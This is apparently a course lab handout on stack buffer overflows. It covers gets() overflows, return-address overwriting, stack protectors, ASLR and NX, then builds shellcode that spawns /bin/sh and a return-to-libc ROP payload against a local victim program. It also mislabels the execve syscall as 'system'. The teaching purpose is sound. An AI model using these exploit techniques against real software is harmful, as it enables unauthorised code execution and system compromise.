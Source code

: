 #+STARTUP: showall
#+STARTUP: lognotestate
#+TAGS:
#+SEQ_TODO: TODO STARTED DONE DEFERRED CANCELLED | WAITING DELEGATED APPT
#+DRAWERS: HIDDEN STATE
#+TITLE: Lab 8: Stack overflow
#+CATEGORY: todo

* Introduction

This week we are going to learn how programs exploit bad programming. In particular, how well-crafted input can force a program to execute something completely
different than what it was originally intended to do.

* Stack overflow

As you are probably well aware, C gives you total programming power. But with great power, comes great responsibility. One of the biggest problems with C is that
many programmers do not check that the data structures that they allocate in the stack are not overflown.

Compile and test the following simple program. Call it =smashing.c=

#+BEGIN_SRC C
#include <stdio.h>
#include <string.h>

void main()
{
  char buffer[10];
  puts("Type a very long string:");
  gets(buffer);
  if (strlen(buffer) < 50) {
    puts("I said long!!!!. Try again\n");
  } else {
    printf("Input: [%s]\n", buffer);
  }
}
#+END_SRC

Compile it (=gcc -o smashing smashing.c=)

*Q1. What is the warning you receive when you compile it?*

*Q2. What happens when you give it a long input?*


** GCC Stack-Smashing Protector (SSP)

gcc can help us defend against these types of buffer overflows. Newer versions of gcc have this protection enabled by default. Not in our lab machines. Instead
we need to enable it at compile time:

#+BEGIN_EXAMPLE
gcc -fstack-protector -o smashing smashing.c
#+END_EXAMPLE

Run it again.

*Q3 What is the difference now?*

* Subjugating a program: returning where we want

You already knew that it is easy to clobber the stack (I am sure you have done it plenty of times).  Can we do anything interesting by overwriting the stack?
Let us try. Call this program =subjugating.c=. Compile it and run it.

#+BEGIN_SRC C
#include <stdio.h>
#include <stdlib.h>
int i;

void do_not_execute(void)
{
  printf("\nDo not execute!!!!!!!!!!!!!\n");
  exit(1);
}

void function(void) {
  long int *stackTop = 0;
  stackTop = (long int*)&stackTop;
  for (i=0;i<16;i++) {
    printf("stack offset %d from stackTop: %x value %x\n",i, stackTop + i, *(stackTop+i));
  }
  *(stackTop + 4) = (long int)do_not_execute;
  printf("return to %x\n\n", *(stackTop+8));
}

void main() {
  int x;

  x = 0;
  printf("address of do_not_execute %x\n", do_not_execute);
  printf("address of function %x\n", function);
  printf("address of main %x\n", main);
  function();
  x = 1;
  printf("value of %d\n",x);
  printf("hello world\n");
}
#+END_SRC


*Q4. Why does it execute the /function do_not_execute/?* Hint, you should know what a stack frame is (remember your assembly programming?). If not head here: http://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64/

** Try Stack-Smashing Protector in this program

Enable SSP for this program.

*Q5. Why doesn't SSP work in this program?*

** Address Space Layout Randomization (ASLR)

Run the program several times. As you can see, the addresses of the stack change every time. This is a security measure. This way it is more difficult to know
the addresses that we need to override (that is why I had to print the addresses of the stack to identify where to the return address was). Let us disable by running it:

#+BEGIN_SRC bash
setarch `arch` -R ./subjugating
#+END_SRC

As you can see, now the stack is always exactly in the same place. This is a counter-measure to stack overflows.

* Smashing to Subjugate

So we can make a program crash or execute code that is not intended to do what it should. But, can we mix both at the same time? Of course we can.
But this time we need to be crafty. Let us do in increments. First, let us create the smallest C program that executes shell that we can.

Now head to https://crypto.stanford.edu/~blynn/rop/ and do the first part of the exercise (all the way to /The Importance of Being Patched/). I'll simply
add to his tutorial in areas that you will probably have trouble understanding.

But be careful about the following:

1. Change your prompt. This will make it easy to know if you are inside the shell executed by the program or not. In the terminal type
#+BEGIN_SRC BASH
PS1='TEST> '
#+END_SRC
2. when you execute the binary of shell.c type exit to exit it.
3. There is a typo in the command that generates the file =shellcode=.
#+BEGIN_SRC bash
xxd -s0x4bf -l32 -p a.out shellcode
#+END_SRC
it should be (notice the redirection). Make sure you use the right address
#+BEGIN_SRC bash
xxd -s0x4bf -l32 -p a.out > shellcode
#+END_SRC
** system  call

In Linux =system= is a system call of the kernel. It is very simple. It is called using =syscall= with a value of 0x3b in the =rax= register, a pointer to
the command to execute in the =rdi= register; =rsi= points to the list of arguments, and =rdx= to the environment variables. In this case the latter two are
NULL.

** The assembly

This is a very well crafted piece of code. The challenge of the attack is to get the address of the command "/bin/sh" in the =rdi= register. But we have no clue
where this code is going to end, so the easiest is to get the address of the string into the stack and then pop it into the register. How do we do it? if we
call a function the stack automatically loads  the address immediately after the function. Let me do a play-by-play:

1. We jump to "there"
2. We call here (return to the top), this pushes the address of "/bin/sh" into the stack.
3. Now we pop the address of "/bin/sh" into =rdi=, clear =rax= and =rsi=, and do the syscall.
4. We do the syscall, which executes the command "/bin/sh" (the shell)

#+BEGIN_SRC C
int main() {
  asm("\
needle0: jmp there\n\
here:    pop %rdi\n\
         xor %rax, %rax\n\
         movb $0x3b, %al\n\
         xor %rsi, %rsi\n\
         xor %rdx, %rdx\n\
         syscall\n\
there:   call here\n\
.string \"/bin/sh\"\n\
needle1: .octa 0xdeadbeef\n\
  ");
}
#+END_SRC

** Extracting the binary

The command extracts the given bytes from your binary. Make sure you use the correct offset (in my case it was 0x495). It outputs the values in hexadecimal so
we can easily read it.

#+BEGIN_SRC BASH
xxd -s0x495 -l32 -p a.out > shellcode
#+END_SRC

Make sure your =shellcode= matches:

#+BEGIN_SRC BASH
cat shellcode
eb0e5f4831c0b03b4831f64831d20f05e8edffffff2f62696e2f736800ef
bead
#+END_SRC


* Executable space protection (NX)

As you learned in the tutorial above, code in the stack cannot be executed. This is a great countermeasure against stack overflows. Go back to the tutorial and do the section /Executable space perversion/

*Q6. What is the behaviour of the program when you enable NX?*

* If you have time...

Do the section /The Importance of Being Patched/. It will show you that it is possible to know the address of the stack we need to attack by using =ps=

* If your have more time... or want to keep playing...

The rest of the tutorial is fascinating, to say the least.

But we need to fix the tutorial so it works on our version of linux:

1. First, in order to get his attack to work in our lab computers you need to change the source
   code of =victim.c=. You need to change the size of the buffer from 64 to 128 bytes.
2. The location of the library is =/lib64/libc.so.6=
3. The addresses of =<system>= and =<exit>= that are extracted  using =nm= are absolute (it means we don't need to add the base)
#+BEGIN_SRC bash
nm -D /lib64/libc.so.6 | grep '\<exit\>'   | cut -f1 -d' '
nm -D /lib64/libc.so.6 | grep '\<system\>' | cut -f1 -d' '
#+END_SRC
4. You need to change the payload string to the =%0130d= to =%0256d= to compensate for the bytes we have added.

My values are:

| base             | 0x000000392ba00000 |
| gadget           |            0x20338 |
| system           | 0x000000392ba3e900 |
| exit             | 0x000000392ba35a50 |
| address of array |     0x7fffffffddd0 |

5. There is an error in his execution of the attack. He does not include any input to the command. Try the command below instead (remember to calculate your own
   values for base, gadget, system, and address of array).

#+BEGIN_SRC bash
( (
echo -n /bin/sh | xxd -p
printf %0258d 0;
printf %016x $((0x000000392ba00000+0x20338)) | tac -rs..
printf %016x 0x7fffffffddd0 | tac -rs..
printf %016x 0x000000392ba3e900 | tac -rs..
echo
) |  xxd -r -p; echo ; echo ls -lia ) | setarch `arch` -R ./victim
#+END_SRC

In a nutshell, this is the attack:

The goal is to replace the stack with the following data:

|----------------------------+--------------------------------------------------|
| address of function system |                                                  |
| address of /bin/sh         |                                                  |
| address of gadget          | this was the return address of the original call |
|                            |                                                  |
|----------------------------+--------------------------------------------------|

Let me explain the /gadget/. This is the code that is needed to execute (=pop rdi= then =retq=). These two instructions are simply two bytes 0x5f followed by
0xc3. Ben (the author of the page) shows us that all we need is to find those two bytes /somewhere/ (anywhere) in the executable section of the library of libc.

So here is the play by play:

1. Insert the payload into the stack, replace the return address of the function with the address of the gadget
2. Execute the gadget. The gadget pops the top of the stack (containing the address of /bin/sh into the register =rdi=
3. Executes the return =retq=. The return  address is the address of the =system= function. Control is transferred to it.
4. =system= behaves as expected. Executes =/bin/sh= (the shell)
5. At the end of =system= control is transferred to its return address (at the top of the stack,
6. The return value is invalid, so the program crashes with a segmentation fault. It is easy to fix it. Just add to the attack the address of =exit= and append
   that to the string that goes into the stack. I'll leave that as an exercise to the reader.

Happy coding

--dmg
